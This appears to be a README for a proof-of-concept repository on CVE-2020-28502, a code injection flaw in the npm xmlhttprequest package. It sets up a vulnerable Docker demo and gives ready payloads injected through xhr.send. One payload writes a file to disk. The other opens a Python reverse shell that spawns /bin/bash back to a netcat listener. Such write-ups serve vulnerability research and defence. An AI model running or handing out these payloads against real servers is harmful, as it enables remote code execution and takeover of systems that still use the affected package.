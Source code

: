 # CVE-2020-28502 node-XMLHttpRequest RCE

## NVD Description

This affects the package xmlhttprequest before 1.7.0; all versions of package xmlhttprequest-ssl. Provided requests are sent synchronously (async=False on xhr.open), malicious user input flowing into xhr.send could result in arbitrary code being injected and run.

## Demo

![cve-2020-28502](https://user-images.githubusercontent.com/56715563/117973311-33620f80-b367-11eb-8335-c139ad8d7648.gif)

## Set Up

1. Build an image from a Dockerfile

```
$ docker build -t cve-2020-28502 .
```

2. Run node app.js in a new container

```
$ docker run --rm -p 3000:3000 cve-2020-28502
```

3. Access http://localhost:3000

![localhost-image](https://user-images.githubusercontent.com/56715563/117810837-d567f600-b29a-11eb-887c-1c8e807e454d.png)

## PoC Payload

### Add file

Submit Payload

```
\');require("fs").writeFileSync("./exploit.txt", "exploit!");req.end();//
```

### Reverse Shell

1. Listen client

```
$ nc -l 8888
```

2. Submit Payload

change ip address (192.168.0.25) to your local ip address

```
\');require("child_process").exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.0.25\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");req.end();//
```

## Reference

- https://snyk.io/vuln/SNYK-JS-XMLHTTPREQUEST-1082935

